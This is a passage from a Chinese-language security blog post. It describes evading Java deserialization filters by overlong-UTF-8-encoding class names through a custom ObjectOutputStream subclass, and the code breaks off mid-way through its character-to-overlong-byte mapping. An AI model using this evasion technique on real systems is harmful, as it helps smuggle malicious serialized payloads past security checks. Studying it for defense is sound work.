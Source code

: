 [![](assets/1709279497-8b63ecfad96006206dc1bb9e6a86a296.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229102911-52875730-d6aa-1.png)

但是直接写这个类有点麻烦，毕竟序列化用的是 ObjectOutputStream

看看是谁调用了这个方法，往前一步，发现 writeClassDescriptor 方法调用 writeNonProxy 方法，而 writeClassDescriptor 正好是 ObjectOutputStream 的方法。

[![](assets/1709279497-bb7e890a8b7d044f68e42384a4614bc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229102917-565879f2-d6aa-1.png)

接下来就简单了，我们继承 ObjectOutputStream，重写 writeClassDescriptor 方法，在 writeClassDescriptor 方法中实现 desc.writeNonProxy(this) 方法的逻辑和将类名 Overlong Encoding 的逻辑，具体操作的话就是直接将 desc.writeNonProxy(this) 方法的逻辑复制进去，缺少的属性可以通过反射获取，缺少的方法可以通过反射调用，之后在里面加上 Overlong Encoding 的逻辑就可以啦。

这里贴上我的代码

```plain
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
/**
 * 参考 p 神：https://mp.weixin.qq.com/s/fcuKNfLXiFxWrIYQPq7OCg
 * 参考 1ue：https://t.zsxq.com/17LkqCzk8
 * 实现：参考 OObjectOutputStream# protected void writeClassDescriptor(ObjectStreamClass desc) 方法
 */
public class CustomObjectOutputStream extends ObjectOutputStream {

    public CustomObjectOutputStream(OutputStream out) throws IOException {
        super(out);
    }

    private static HashMap<Character, int[]> map;
    private static Map<Character,int[]> bytesMap=new HashMap<>();

    static {
        map = new HashMap<>();
        map.put('.', new int[]{0xc0, 0xae});
        map.put(';', new int[]{0xc0, 0xbb});
        map.put('$', new int[]{0xc0, 0xa4});
        map.put('[', new int[]{0xc1, 0x9b});
        map.put(']', new int[]{0xc1, 0x9d});
```
